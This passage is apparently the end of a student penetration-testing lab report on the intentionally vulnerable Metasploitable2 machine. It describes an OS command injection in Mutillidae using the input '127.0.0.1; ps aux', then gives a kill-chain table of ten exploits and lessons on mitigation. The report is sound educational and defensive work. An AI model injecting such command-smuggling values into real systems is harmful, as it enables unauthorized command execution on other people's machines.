     6.Entered `127.0.0.1; ps aux` in the Hostname/IP field.
  6. Submitted the DNS lookup request and received a list of running processes from the target.
- **Evidence:**  
- **Cyber Kill Chain Stage(s):**
  - **Reconnaissance:** The HTTP service on port 80 and the Mutillidae application were identified during the Nmap scan.

  - **Exploitation:**
    The Hostname/IP input in the DNS Lookup functionality was manipulated with an additional operating-system command, causing the target to execute the injected commands.

  - **Actions on Objectives:** The commands id and ps aux were executed on the target, providing information about the account executing the commands and the processes running on the system.

- **Outcome / Impact:**
  Remote OS command execution was successfully demonstrated on the Metasploitable2 target. The id command showed that the commands were executed as the www-data user (uid=33(www-data) gid=33(www-data) groups=33(www-data)), while ps aux provided a list of running processes on the target.

---

## Kill Chain Coverage Summary

| Exploit                             | Recon | Weaponization | Delivery | Exploitation | Installation | C2  | Actions on Objectives |
| ----------------------------------- | ----- | ------------- | -------- | ------------ | ------------ | --- | --------------------- |
| 1. VSFTPD 2.3.4 Backdoor            | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 2. Samba Username Map Script        | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 3. Tomcat Ghostcat                  | ✔     |               |          | ✔            |              |     | ✔                     |
| 4. PostgreSQL Payload Execution     | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 5. rlogin Remote Root Access        | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 6. NFS Root Filesystem Export       | ✔     |               |          | ✔            |              |     | ✔                     |
| 7. Ingreslock Backdoor              | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 8. DistCC Command Execution         | ✔     |               |          | ✔            |              |     | ✔                     |
| 9. UnrealIRCd 3.2.8.1 Backdoor      | ✔     |               |          | ✔            |              | ✔   | ✔                     |
| 10. Mutillidae OS Command Injection | ✔     |               |          | ✔            |              |     | ✔                     |

---

## Lessons Learned / Mitigations

The exercise demonstrated that outdated software, insecure service configurations, and poor input validation can expose systems to unauthorized access and command execution.

- **VSFTPD 2.3.4 Backdoor:** The affected VSFTPD version should be removed and replaced with a trusted, patched version. Unnecessary FTP access should also be disabled.

- **rlogin Remote Root Access:** The rlogin service should be disabled because it provides insecure remote access. SSH should be used instead for secure remote administration.

- **Mutillidae OS Command Injection:** The application should properly validate and sanitize user input and avoid passing unsanitized input directly to operating-system commands. Safer APIs should be used instead of constructing shell commands from user-supplied data.

### Key Lessons Learned

The exercise showed that different vulnerabilities can produce different forms of access. Some exploits resulted in interactive shell sessions, while others allowed specific commands to be executed or files to be accessed without establishing a persistent session. It also demonstrated the importance of reconnaissance, identifying service versions, selecting a vulnerability-specific exploitation tool, and collecting evidence of the actual result.
